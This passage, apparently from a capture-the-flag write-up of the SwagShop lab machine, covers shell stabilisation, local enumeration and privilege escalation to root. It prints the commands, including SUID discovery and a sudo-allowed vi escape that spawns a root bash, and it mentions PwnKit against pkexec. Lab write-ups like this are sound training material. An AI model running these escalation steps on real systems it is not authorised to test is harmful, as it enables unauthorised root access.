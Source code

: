 I perform a **Console treatment** to have a better performance of my console in the following phases and I also adjust the Shell proportions. I start the **Enumeration** phase and I check that the **Codename** is **bionic** and that I can already access the content of the first flag. I also find that the `pkexec` tool has the **SUID** bit enabled, so it is possible to use **[PwnKit](https://github.com/ly4k/PwnKit){:target="_blank"}** and **Escalate Privileges**. As it is not the intended path I go to look for another attack vector, and after **tray harder** for a while I find a special permission with `sudo -l`, which allows me to run the `vi` binary impersonating the **root** user. To **Escalate Privileges** I just have to resort to **[GTFObins](https://gtfobins.github.io/gtfobins/vi/#shell){:target="_blank"}** to find the instructions to get a **Reverse Shell** and access the contents of the last flag. Machine pwned!

> **Attacker Machine**:

```bash
script /dev/null -c bash
# [Ctrl^Z]
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 29 columns 128

id
groups
uname -a
lsb_release -a
cat /etc/passwd | grep 'sh$'
find \-perm -4000 2>/dev/null

sudo -l
# (root) NOPASSWD: /usr/bin/vi /var/www/html/*

sudo /usr/bin/vi /var/www/html/index.php

  :set shell=/bin/bash
  :shell

whoami
# :)
```

<br />
<img src="{{ site.img_path }}/swagshop_writeup/SwagShop_51.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/swagshop_writeup/SwagShop_52.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/swagshop_writeup/SwagShop_53.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/swagshop_writeup/SwagShop_54.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/swagshop_writeup/SwagShop_55.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/swagshop_writeup/SwagShop_56.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/swagshop_writeup/SwagShop_57.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/swagshop_writeup/SwagShop_58.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
